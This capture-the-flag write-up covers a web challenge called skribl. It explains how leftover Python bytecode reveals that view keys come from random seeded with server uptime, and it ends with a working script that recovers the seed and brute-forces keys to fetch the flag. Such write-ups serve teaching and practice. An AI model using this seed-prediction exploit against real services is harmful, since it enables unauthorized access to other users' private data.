


For this challenge, we're provided the source code of a web application. The interesting code lies in the skribl.py file where we can find this : 

```python
@app.route('/', methods=['GET', 'POST'])
def index():
    form = SkriblForm()
    message = ""
    if form.validate_on_submit():
        message = form.skribl.data
        author = form.author.data

        key = create_skribl(skribls, message, author)
        return redirect(url_for('view', key=key))
    
    return render_template('index.html', form=form, error_msg=request.args.get("error_msg", ''))

@app.route('/view/<key>', methods=['GET'])
def view(key):
    print(f"Viewing with key {key}")
    if key in skribls:
        message, author = skribls[key]
        return render_template("view.html", message=message, author=author, key=key)
    else:
        return redirect(url_for('index', error_msg=f"Skribl not found: {key}"))
```
We can see here that the key is generated using a function called create_skribl. Unfortunately, this function is not provided. However, the pycache is still present ! I tried uncompyle6 to get the source code but it didn't work as this was compiled using python 3.13. From this, I tried to guess the original source code by looking at the backend.pyc in an hexadecimal editor. 



From that, we can get that the alphabet used to form the key use string.ascii_lowercase + string.ascii_uppercase + string.digits. To get the seed, one can look a bit downwards  : 



Here, we can see that the seed is generated using the timer and the actual time. We can guess that the correct code is : math.floor((datetime.now().timestamp() - timer))

Luckily for us, the server provides us the time from which it is running at the end of the source code : 

```js
stime = moment.duration(36220, 'seconds');
        stime_text = document.getElementById("stime");

        stime_text.outerHTML = stime.humanize()
```

Using all that, we can build a script to get the flag : 

```python
import requests
import regex as re
import random
import string
import math
from datetime import datetime

url = "https://skribl.chall.pwnoh.io/"
r = requests.get(url)
pattern = re.compile(r"moment.duration\((\d+), 'seconds'\);")
result = pattern.search(r.text).group(1)
print("Page is up from : %s, now building the key" % result)

alphabet = string.ascii_lowercase + string.ascii_uppercase + string.digits

for i in range(-5,5):
    Time = math.floor((datetime.now().timestamp() - int(result)))
    random.seed(Time+i)

    key =  "".join([random.choice(alphabet) for i in range(40)])
    r = requests.get("https://skribl.chall.pwnoh.io/view/"+str(key))
    if "bctf" in r.text:
        print("Flag found : %s" % r.text)
        break
```

